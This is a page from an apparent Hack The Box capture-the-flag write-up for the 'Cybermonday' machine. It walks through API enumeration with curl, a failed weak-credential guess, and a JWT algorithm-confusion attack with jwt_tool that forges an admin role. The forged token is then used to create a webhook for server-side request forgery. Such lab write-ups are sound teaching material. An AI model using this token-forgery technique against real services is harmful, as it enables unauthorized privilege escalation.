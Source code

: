 # Cybermonday - Webhook API Admin Access

[Initial Enumeration](/writeups/machines/htb-cybermonday/1-initial-enumeration)
[**Webhook API Admin Access**](/writeups/machines/htb-cybermonday/2-webhook-api-admin)
[Obtaining More Info](/writeups/machines/htb-cybermonday/3-obtaining-more-info)
[Gaining a Foothold](/writeups/machines/htb-cybermonday/4-gaining-a-foothold)
[Where to Now?](/writeups/machines/htb-cybermonday/5-where-to-now)
[Reading the Source](/writeups/machines/htb-cybermonday/6-reading-the-source)
[Composing Root Access](/writeups/machines/htb-cybermonday/7-composing-root-access)

Navigating to the link itself just gets us a blank page. But if we go to the base URL (After adding the domain to our `hosts` file) we see a list of endpoints we can use.
```json
{
  "status": "success",
  "message": {
    "routes": {
...
```

First lets try the `GET /webhooks` endpoint. Since the other endpoints need a UUID it might help to see which ones have already been created. 
```bash
curl http://webhooks-api-beta.cybermonday.htb/webhooks

{"status":"error","message":"Unauthorized"}
```


So we need authorization for this one. The same seems to be true for the create endpoint. We have the UUID for the webhook from the changelog so lets `POST` to that and see what happens.
```bash
curl -X POST http://webhooks-api-beta.cybermonday.htb/webhooks/fda96d32-e8c8-4301-8fb3-c821a316cf77 -H "Content-Type: application/json" -d '{}'

{"status":"error","message":"\"log_name\" not defined"}
```

This must be a `createLogFile` webhook. Sending a `POST` with both the `log_name` and `log_content` fields doesn't seem to get us anything beyond a `Log created` message so lets leave that for now.

The login endpoint has a username and password so lets try some [[weak-credentials|basic credentials]] like `admin:admin`. No luck there, let's go ahead and create an account for now. Once our account is created and we've logged in we obtain a JWT to use for our requests in the `x-access-token` header. Trying the `GET /webhooks` endpoint again we can now get a list of endpoints but there's only the `createLogFile` endpoint that we used before (unless there are other people also attempting to hack the box). If we try to use `/webhooks/create` however, we find we're still unauthorized. If we [inspect our JWT](https://jwt.io/) we find it holds the following payload:
```json
{
  "typ": "JWT",
  "alg": "RS256"
}
{
  "id": 3,
  "username": "username",
  "role": "user"
}
```

So our role may be what's holding us back here. Since the security algorithm is RS256 the server may be open to an [[jwt-exploits|algorithm switching attack]]. First we need the public key our token. Querying the usual paths on the server we find the information in the `/jwks.json` path. From that we can extract the public key. Next we use `jwt_tool` to alter the payload and resign the token. 

First we'll extract the public key from the `jwks.json` file, then tamper with the payload and signature.
```bash
python3 ~/tools/jwt_tool/jwt_tool.py <your token> -V -jw jwks.json

Found RSA key factors, generating a public key
[+] kid_0_<timestamp>.pem

python3 ~/tools/jwt_tool/jwt_tool.py <your token> -T
python3 ~/tools/jwt_tool/jwt_tool.py <token from the above command> -X k -pk <your pem filename>
```

During the second command `jwt_tool` will ask what data you want to tamper with. Skip the header values, then change the `role` value in the payload to `admin`. After this you should have a new (much shorter) JWT that we can now try using to create a new webhook.
```bash
curl -X POST http://webhooks-api-beta.cybermonday.htb/webhooks/create \
-H "x-access-token: <your spoofed token>" \
-H "Content-Type: application/json" \
-d '{"description": "ssrf", "name": "ssrfHook", "action": "sendRequest"}'

{"status":"success","message":"Done! Send me a request to execute the action, as the event listener is still being developed.","webhook_uuid":"<webhook id>"}
```

Success! Now lets see what we can get up to with this new endpoint.

Next: [Obtaining More Info](/writeups/machines/htb-cybermonday/3-obtaining-more-info)